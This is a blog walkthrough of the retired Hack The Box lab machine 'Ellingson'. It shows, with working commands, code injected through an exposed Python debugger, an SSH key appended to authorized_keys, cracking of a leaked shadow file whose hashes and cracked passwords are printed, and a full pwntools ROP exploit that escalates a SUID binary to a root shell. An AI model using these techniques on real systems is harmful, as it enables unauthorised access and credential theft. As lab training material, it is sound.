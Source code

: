 ```yaml
---
layout: post
title:  "Ellingson Walkthrough"
author: nanobyte
date:   2019-10-22
description: Hack The Box writeup for Ellingson, Retired Hard Box
tags: ROP SSH Python test
---
```


{% for tag in site.documents %}
      {{ tag.tags }}
{% endfor %}

Ellingson was an awesome box to root! Not only did I get to sharpen some of my ROP skills, but the throwback to one of my favorite movies (Hackers) was a treat from beginning to root. For those of you who have not seen Hackers, shame on you. Go watch it! This box was also awesome because getting the initial foothold was not the average run this flavor exploit, but really had to think out of the box for me and starting new. So, lets get started!

First off, I ran nmap against the box

{% highlight bash lineos %}
nmap -sV -sC -p- -oA ellingson.htb 10.10.10.139
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-22 10:15 CDT
Nmap scan report for 10.10.10.139
Host is up (0.066s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%),
Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A
or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.92 seconds
{% endhighlight %}

Once I was able to identify what services were running, I hopped on over to the website and began to poke around while running gobuster. When I got to the /articles/ directory, I noticed the numbers incremented and so manually fuzzed. Fuzzing http://10.10.10.139/articles/5 was able to find python interactive shells. There, I had access to a python debugger!

{% highlight bash lineos %}
File "/opt/corp-web/run.py", line 32, in show_articles
slug = articles[index-1]

>>> import getpass
>>> print(getpass.getuser())
hal
{% endhighlight %}

Nice! I found I have the ability to run os system commands. During enumeration, I also found that there is Port 22 open. First, I tried to steal the SSH key, but I did not know the key passphrase. However, looking further, I can write to the authorized_keys file! Since taking the id_rsa key file on there didn’t work, let’s generate a new key, and place our pub key in there:

{% highlight bash lineos %}
import os

os.system("echo '\nssh-rsa [your RSA key] root@kali' >> /home/hal/.ssh/authorized_keys")
{% endhighlight %}

And now I can login to SSH! Awesome, initial foothold gained!

Now that we login, during further enumeration we are user Hal and need to get to user. Enumerating the system, there is a backup folder. In there, we have read permissions to shadow.bak!? Bad admin!

{% highlight bash lineos %}
cat /var/backups/shadow.bak

root:*:17737:0:99999:7:::
daemon:*:17737:0:99999:7:::
bin:*:17737:0:99999:7:::
sys:*:17737:0:99999:7:::
sync:*:17737:0:99999:7:::
games:*:17737:0:99999:7:::
man:*:17737:0:99999:7:::
lp:*:17737:0:99999:7:::
mail:*:17737:0:99999:7:::
news:*:17737:0:99999:7:::
uucp:*:17737:0:99999:7:::
proxy:*:17737:0:99999:7:::
www-data:*:17737:0:99999:7:::
backup:*:17737:0:99999:7:::
list:*:17737:0:99999:7:::
irc:*:17737:0:99999:7:::
gnats:*:17737:0:99999:7:::
nobody:*:17737:0:99999:7:::
systemd-network:*:17737:0:99999:7:::
systemd-resolve:*:17737:0:99999:7:::
syslog:*:17737:0:99999:7:::
messagebus:*:17737:0:99999:7:::
_apt:*:17737:0:99999:7:::
lxd:*:17737:0:99999:7:::
uuidd:*:17737:0:99999:7:::
dnsmasq:*:17737:0:99999:7:::
landscape:*:17737:0:99999:7:::
pollinate:*:17737:0:99999:7:::
sshd:*:17737:0:99999:7:::
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
{% endhighlight %}

Let’s crack those hashes!

{% highlight bash %}
hashcat64.exe -m 1800 -a 0 ellingsin.txt rockyou.txt --force

theplague:password123
margo:iamgod$08
{% endhighlight %}

Now that it’s cracked, let’s login as user!

{% highlight bash %}
su margo

cat /home/margo/user.txt
d0ff9e3f9da8--------------------
{% endhighlight %}

From here, I ran the linenum.sh script, and found a binary running that should NOT be there!

{% highlight bash %}
find / -perm -u=s -type f 2>/dev/null

/usr/bin/garbage
{% endhighlight %}

I tried several methods to get the binary to my box. All ways failed, until I found openssl base64! 

{% highlight bash %}
openssl base64 < garbage

//Copy output of encoded garbage

//On your machine, create garbage.input

openssl base64 -d < garbage.input > garbage.output
{% endhighlight %}

Garbage.output is now the binary on your system! For the ROP, I had to watch Bitterman's video several times, and speak woith the HTB community on Discord (if you are NOT on their channel, I highly recommend it. There is a community of hackers who really do want to help you along with nudges!). After watching the second half of the video, and chatting with a few fellow hackers, I was able to come up with the following:

{% highlight bash %}
from pwn import *

context(terminal=['tmux', 'new-window'])
session = ssh('margo', '10.10.10.139', password='iamgod$08')

p = session.process('/usr/bin/garbage')
#p = gdb.debug('./garbage', 'b main')

context(os='linux', arch='amd64')
#context.log_level = 'DEBUG'

# make sure these are local and freshly grabbed from remote with correct permissions
garbage = ELF('garbage')
rop = ROP(garbage)
libc = ELF('libc.so.6')
junk = "A" * 136

# build rop chain
rop.search(regs=['rdi'], order='regs')
rop.puts(garbage.got['puts'])
rop.call(garbage.symbols['main'])
print "ROP Chain 1:\n{}".format(rop.dump())

payload = junk + str(rop)
p.recvuntil('password:')
p.sendline(payload)
p.recvuntil('denied.')

leaked_puts_address_in_libc = p.recv()[:8].strip().ljust(8, "\x00")
print("Leaked puts@GLIBCL {}".format(str(leaked_puts_address_in_libc)))

# unpack
leaked_puts_address_in_libc = u64(leaked_puts_address_in_libc)

libc.address = leaked_puts_address_in_libc - libc.symbols['puts']
rop2 = ROP(libc)
rop2.setuid(0x0)
rop2.system(next(libc.search('/bin/sh\x00')))
print "ROP Chain 2:\n{}".format(rop2.dump())

payload = junk + str(rop2)
p.sendline(payload)
p.recvuntil('denied.')

p.clean()
p.interactive()
{% endhighlight %}

Now, once you run the binary on your local system, it will deliver root!

{% highlight bash %}
cat /root/root.txt
1cc73a448021--------------------
{% endhighlight %}
